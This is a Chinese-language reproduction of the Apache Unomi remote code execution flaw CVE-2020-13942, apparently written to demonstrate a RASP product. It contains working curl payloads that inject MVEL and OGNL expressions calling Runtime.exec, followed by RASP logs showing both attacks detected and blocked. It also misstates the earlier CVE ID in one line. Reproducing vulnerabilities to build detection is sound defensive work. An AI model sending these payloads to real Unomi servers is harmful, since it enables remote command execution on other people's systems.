




# CVE-2020-13942

## 漏洞简介

Apache Unomi是一个Java开源客户数据平台，旨在管理客户和访问者的数据，并个性化客户体验。
2020年11月17日，Apache Unomi被披露存在严重安全漏洞（CVE-2020-13942），其CVSS评分为10分。
由于Apache Unomi允许远程攻击者使用包含任意类的MVEL和OGNL表达式发送恶意请求，最终可导致攻击者使用Unomi应用程序权限远程执行代码。

CVE ID为CVE-2020-11975，目前虽然已经修复，但修复并不充分，可被轻易绕过。

## 影响版本

Apache Unomi < 1.5.2

## 环境搭建



本次复现的版本选择: **jdk1.8.0_301**, [ElasticSearch 7.5.0](https://repo.huaweicloud.com/elasticsearch/7.5.0/), [Apache Unomi 1.5.0](https://repo.huaweicloud.com/apache/unomi/1.5.0/)

+ Apache Unomi 版本选择



+ ElasticSearch 版本选择



+ Apache Unomi 启动
```shell
./bin/karaf
```
启动成功之后，执行
```shell
unomi:start
```


## RCE漏洞复现
执行命令：touch /tmp/unomi.txt
```
curl -X POST http://localhost:8181/context.json --header 'Content-type: application/json' --data '{"filters":[{"id":"boom ","filters":[{"condition":{"parameterValues":{"propertyName":"prop","comparisonOperator":"equals","propertyValue":"script::Runtime r=Runtime.getRuntime();r.exec(\"touch /tmp/unomi.txt\");"},"type":"profilePropertyCondition"}}]}],"sessionId":"boom"}'
```

## OGNL漏洞复现
执行命令：touch /tmp/unomi.txt
```
curl -X POST http://localhost:8181/context.json --header 'Content-Type: application/json' --data '{"personalizations":[{"id":"gender-test","strategy":"matching-first","strategyOptions":{"fallback":"var2"},"contents":[{"filters":[{"condition":{"parameterValues":{"propertyName": "(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"gnome-calculator\"))","comparisonOperator":"equals","propertyValue":"male"},"type":"profilePropertyCondition"}}]}]}],"sessionId":"boom"}'
{"profileId":"dd31ed64-86f8-48ca-bb5b-620c7c4e5fb5","sessionId":"boom","profileProperties":null,"sessionProperties":null,"profileSegments":null,"filteringResults":null,"processedEvents":0,"personalizations":{"gender-test":["var2"]},"trackedConditions":[{"parameterValues":{"formId":"testFormTracking","pagePath":"/tracker/"},"type":"formEventCondition"}],"anonymousBrowsing":false,"consents":{}}
```

unomi.txt 在/tmp下创建成功

## RASP防护

### 开启RASP,再次触发RCE攻击请求
```shell
{
    "protocol":"HTTP/1.1",
    "method":"POST",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "cmdArray":[
        "touch",
        "/tmp/unomi.txt"
    ],
    "requestURI":"/context.json",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.mvel2.optimizers.impl.refl.ReflectiveAccessorOptimizer.getMethod(ReflectiveAccessorOptimizer.java:1111)",
        "org.mvel2.optimizers.impl.refl.ReflectiveAccessorOptimizer.getMethod(ReflectiveAccessorOptimizer.java:1001)",
        "org.mvel2.optimizers.impl.refl.ReflectiveAccessorOptimizer.compileGetChain(ReflectiveAccessorOptimizer.java:367)",
        "org.mvel2.optimizers.impl.refl.ReflectiveAccessorOptimizer.optimizeAccessor(ReflectiveAccessorOptimizer.java:167)",
        "org.mvel2.optimizers.dynamic.DynamicOptimizer.optimizeAccessor(DynamicOptimizer.java:80)",
        "org.mvel2.ast.ASTNode.optimize(ASTNode.java:159)",
        "org.mvel2.ast.ASTNode.getReducedValueAccelerated(ASTNode.java:115)",
        "org.mvel2.MVELRuntime.execute(MVELRuntime.java:85)",
        "org.mvel2.compiler.CompiledExpression.getDirectValue(CompiledExpression.java:123)",
        "org.mvel2.compiler.CompiledExpression.getValue(CompiledExpression.java:119)",
        "org.mvel2.MVEL.executeExpression(MVEL.java:968)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionContextHelper.parseParameter(ConditionContextHelper.java:88)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionContextHelper.parseParameter(ConditionContextHelper.java:94)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionContextHelper.getContextualCondition(ConditionContextHelper.java:65)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher$1.execute(ConditionEvaluatorDispatcher.java:75)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher$1.execute(ConditionEvaluatorDispatcher.java:72)",
        "org.apache.unomi.metrics.MetricAdapter.runWithTimer(MetricAdapter.java:38)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher.eval(ConditionEvaluatorDispatcher.java:82)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher.eval(ConditionEvaluatorDispatcher.java:54)",
        "org.apache.unomi.persistence.elasticsearch.ElasticSearchPersistenceServiceImpl.testMatch(ElasticSearchPersistenceServiceImpl.java:1283)",
        "Proxy31f2ccc1_91f5_42fc_a204_397628ac7bc8.testMatch(Unknown Source)",
        "org.apache.unomi.services.impl.profiles.ProfileServiceImpl.matchCondition(ProfileServiceImpl.java:781)",
        "org.apache.unomi.services.impl.personalization.PersonalizationServiceImpl.filter(PersonalizationServiceImpl.java:67)",
        "Proxyf77edaab_6347_4e43_b18c_6e1689d88601.filter(Unknown Source)",
        "org.apache.unomi.web.ContextServlet.handleRequest(ContextServlet.java:359)",
        "org.apache.unomi.web.ContextServlet.service(ContextServlet.java:257)"
    ],
    "jetty.request.body.time":0.10620700000000001,
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameters":"{\"filters\":[{\"id\":\"boom \",\"filters\":[{\"condition\":{\"parameterValues\":{\"propertyName\":\"prop\",\"comparisonOperator\":\"equals\",\"propertyValue\":\"script::Runtime r=Runtime.getRuntime();r.exec(\\\"touch /tmp/unomi.txt\\\");\"},\"type\":\"profilePropertyCondition\"}}]}],\"sessionId\":\"boom\"}\u0000",
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
攻击参数、利用链路非常清楚。


### 触发OGNL攻击请求后的攻击信息

```java
{
    "attackParameters":"#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\").#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\") }[0].#rtobj = #getruntimemethod.invoke(null, null).#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\") }.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\") }.{? (#this.getParameters().length < 2) }[0].#execmethod.invoke(#rtobj, \"gnome-calculator\")",
    "attackTime":1657527231614,
    "attackType":"ognl",
    "blocked":true,
    "checkType":"ognl",
    "httpInfo":{
        "protocol":"HTTP/1.1",
        "method":"POST",
        "remoteHost":"0:0:0:0:0:0:0:1",
        "header":{
            "content-length":"758",
            "host":"localhost:8181",
            "content-type":"application/json",
            "accept":"*/*",
            "user-agent":"curl/7.64.1"
        },
        "requestURI":"http://localhost:8181/context.json",
        "localAddr":"0:0:0:0:0:0:0:1",
        "parameterMap":{

        }
    },
    "level":100,
    "stackTrace":[
        "ognl.OgnlParser.topLevelExpression(OgnlParser.java:17)",
        "ognl.Ognl.parseExpression(Ognl.java:110)",
        "ognl.Ognl.compileExpression(Ognl.java:139)",
        "org.apache.unomi.plugins.baseplugin.conditions.PropertyConditionEvaluator.getPropertyAccessor(PropertyConditionEvaluator.java:384)",
        "org.apache.unomi.plugins.baseplugin.conditions.PropertyConditionEvaluator.getOGNLPropertyValue(PropertyConditionEvaluator.java:328)",
        "org.apache.unomi.plugins.baseplugin.conditions.PropertyConditionEvaluator.getPropertyValue(PropertyConditionEvaluator.java:257)",
        "org.apache.unomi.plugins.baseplugin.conditions.PropertyConditionEvaluator.eval(PropertyConditionEvaluator.java:161)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher$1.execute(ConditionEvaluatorDispatcher.java:77)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher$1.execute(ConditionEvaluatorDispatcher.java:72)",
        "org.apache.unomi.metrics.MetricAdapter.runWithTimer(MetricAdapter.java:38)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher.eval(ConditionEvaluatorDispatcher.java:82)",
        "org.apache.unomi.persistence.elasticsearch.conditions.ConditionEvaluatorDispatcher.eval(ConditionEvaluatorDispatcher.java:54)",
        "org.apache.unomi.persistence.elasticsearch.ElasticSearchPersistenceServiceImpl.testMatch(ElasticSearchPersistenceServiceImpl.java:1283)",
        "Proxy111a0d77_e7da_464c_a27f_3047b9b5c8a0.testMatch(Unknown Source)",
        "org.apache.unomi.services.impl.profiles.ProfileServiceImpl.matchCondition(ProfileServiceImpl.java:781)",
        "org.apache.unomi.services.sorts.FilterPersonalizationStrategy.personalizeList(FilterPersonalizationStrategy.java:46)",
        "org.apache.unomi.services.impl.personalization.PersonalizationServiceImpl.personalizeList(PersonalizationServiceImpl.java:88)",
        "Proxyd058b12c_ca87_4971_9648_7379b42a7273.personalizeList(Unknown Source)",
        "org.apache.unomi.web.ContextServlet.handleRequest(ContextServlet.java:368)",
        "org.apache.unomi.web.ContextServlet.service(ContextServlet.java:257)",
        "javax.servlet.http.HttpServlet.service(HttpServlet.java:790)",
        "org.eclipse.jetty.servlet.ServletHolder$NotAsyncServlet.service(ServletHolder.java:1392)",
        "org.eclipse.jetty.servlet.ServletHolder.handle(ServletHolder.java:760)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1617)",
        "org.eclipse.jetty.websocket.server.WebSocketUpgradeFilter.doFilter(WebSocketUpgradeFilter.java:226)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1604)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:545)",
        "org.ops4j.pax.web.service.jetty.internal.HttpServiceServletHandler.doHandle(HttpServiceServletHandler.java:71)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:143)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:536)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:235)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1592)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:233)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1296)",
        "org.ops4j.pax.web.service.jetty.internal.HttpServiceContext.doHandle(HttpServiceContext.java:298)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:188)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:485)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1562)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:186)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1211)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:141)",
        "org.ops4j.pax.web.service.jetty.internal.JettyServerHandlerCollection.handle(JettyServerHandlerCollection.java:80)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)",
        "org.eclipse.jetty.server.Server.handle(Server.java:500)",
        "org.eclipse.jetty.server.HttpChannel.lambda$handle$1(HttpChannel.java:386)",
        "org.eclipse.jetty.server.HttpChannel.dispatch(HttpChannel.java:562)",
        "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:378)",
        "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:270)",
        "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:311)"
    ]
}
```

### 性能
http body 检测耗时： 0.11ms

攻击命令检测耗时：1.28ms
